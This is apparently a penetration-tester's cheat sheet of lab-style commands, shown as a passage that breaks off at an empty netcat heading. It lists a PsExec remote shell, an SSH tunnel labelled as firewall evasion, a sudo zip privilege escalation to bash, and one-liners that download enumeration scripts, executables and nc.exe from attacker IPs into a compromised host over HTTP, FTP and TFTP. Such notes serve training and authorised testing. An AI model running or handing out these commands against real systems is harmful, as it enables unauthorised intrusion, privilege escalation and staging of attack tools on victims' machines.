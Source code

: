 Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Evasion

Reverse ssh firewall port:
-   ssh -L 10001:127.0.0.1:10000 agent47@10.10.184.65
-   openssl passwd -1 -salt [salt] [password]

## GTFO

sudo -u silvio zip $TF /etc/hosts -T -TT 'bash #'

## File transfer

HTTP:

-   wget 10.8.3.22:8000/LinEnum.sh
-   powershell -c "Invoke-WebRequest -Uri 'http://10.11.17.71:80/Message.exe' -OutFile 'C:\windows\temp\Message.exe'"

FTP:

-   pip install pyftpdlib
    python -m pyftpdlib -p 21 -w

-   In reverse shell:
        echo open 10.10.10.10 > ftp.txt
        echo USER anonymous >> ftp.txt
        echo ftp >> ftp.txt 
        echo bin >> ftp.txt
        echo GET "file" >> ftp.txt
        echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt

TFTP:

-   atftpd --daemon --port 69 /tftp
-   In reverse shell
        tftp -i 10.10.10.10 GET nc.exe

SSH:

-   scp user@host:/dir/file ./dir (remote to local)(terminal from local)
-   scp ./localfile user@host:/dir/ (local to remote)

Base64:

-   base64 remotefile.ext
    echo "copied text" file
    base64 -d file > local.ext

Netcat:
